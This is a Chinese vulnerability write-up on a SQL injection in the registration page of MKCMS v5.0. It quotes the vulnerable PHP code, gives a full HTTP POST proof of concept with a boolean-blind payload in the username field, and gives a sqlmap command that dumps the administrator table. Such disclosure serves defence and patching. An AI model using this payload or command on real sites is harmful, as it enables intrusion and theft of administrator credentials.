

MKCMS v5.0 /ucenter/reg.php前台sql注入漏洞
==========================================

一、漏洞简介
------------

二、漏洞影响
------------

MKCMS v5.0

三、复现过程
------------

漏洞出现在`/ucenter/reg.php`第7-19行:

    if(isset($_POST['submit'])){
    $username = stripslashes(trim($_POST['name']));
    // 检测用户名是否存在
    $query = mysql_query("select u_id from mkcms_user where u_name='$username'");
    if(mysql_fetch_array($query)){
    echo '';
    exit;
    }
    $result = mysql_query('select * from mkcms_user where u_email = "'.$_POST['email'].'"');
    if(mysql_fetch_array($result)){
    echo '';
    exit;
    }

注册用户名时`$username`参数传到后台后经过`stripslashes()`函数处理，而`stripslashes()`函数的作用是删除`addslashes()`
函数添加的反斜杠。这里就很郁闷了，过滤反斜杠干嘛？

当前页面无输出点，只是返回一个注册/未注册（通过if判断true或者false)，可以使用布尔盲注来解决这个问题

POC：

    POST /ucenter/reg.php HTTP/1.1
    Host: 127.0.0.1
    User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:65.0) Gecko/20100101 Firefox/65.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: en
    Accept-Encoding: gzip, deflate
    Referer: http://127.0.0.1/ucenter/reg.php
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 52
    Connection: close
    Cookie: PHPSESSID=cb8e6ccde6cf9050972fa9461d606be3
    Upgrade-Insecure-Requests: 1

    name=test' AND 1=1 AND 'inject'='inject&email=sss%40qq.com&password=ssssss&submit=

将POC中的数据包保存下来丢给sqlmap跑即可。

获取管理员账号：

    sqlmap -r inject.txt -D mkcms -T mkcms_manager --dump

参考链接
--------

> https://xz.aliyun.com/t/4189\#toc-1
